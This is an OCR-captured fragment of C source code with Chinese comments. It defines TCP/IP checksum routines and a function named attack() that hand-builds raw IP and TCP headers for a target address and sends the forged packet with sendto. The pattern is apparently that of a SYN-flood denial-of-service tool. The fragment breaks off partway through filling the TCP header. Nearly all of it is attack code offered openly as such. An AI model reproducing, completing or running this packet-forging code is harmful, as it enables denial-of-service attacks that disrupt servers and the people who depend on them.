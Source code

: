 ```

	#include <linux/if_ether.h>
	#include <linux/if_arp.h>
	#include <linux/sockios.h>

	unsigned csum_tcpudp_nofold(unsigned saddr, unsigned daddr,
				unsigned len, unsigned proto, unsigned sum)
	{
		unsigned long long s = (unsigned)sum;
		s += (unsigned)saddr;
		s += (unsigned)daddr;
		s += (proto + len) << 8;
		s += (s >> 32);
		return (unsigned)s;
	}

	unsigned short check_sum(unsigned short *addr, int len, unsigned sum)
	{
		int nleft = len;
		unsigned short *w = addr;
		unsigned short ret = 0;
		while (nleft > 1) {
			sum += *w++;
			nleft -= 2;
		}
		if (nleft == 1) {
			*(unsigned char *)(&ret) = *(unsigned char *)w;
			sum += ret;
		}

		sum = (sum>>16) + (sum&0xffff);
		sum += (sum>>16);
		ret = ~sum;
		return ret;
	}

	//在该函数中构造整个IP报文，最后调用sendto函数将报文发送出去
	void attack(int skfd, struct sockaddr_in *target, unsigned short srcport)
	{
		char buf[256] = {0};
		struct ip *ip;
		struct tcphdr *tcp;
		int ip_len;
		int op_len = 12;

		//在我们TCP的报文中Data没有字段，所以整个IP报文的长度
		ip_len = sizeof(struct ip) + sizeof(struct tcphdr) + op_len;

		//开始填充IP首部
		ip=(struct ip*)buf;
		ip->ip_v = IPVERSION;
		ip->ip_hl = sizeof(struct ip)>>2;
		ip->ip_tos = 0;
		ip->ip_len = htons(ip_len);
		ip->ip_id = 0;
		ip->ip_off = 0;
		ip->ip_ttl = MAXTTL;
		ip->ip_p = IPPROTO_TCP;
		ip->ip_sum = 0;
		ip->ip_dst = target->sin_addr;

		//开始填充TCP首部
		tcp = (struct tcphdr*)(buf+sizeof(struct ip));
```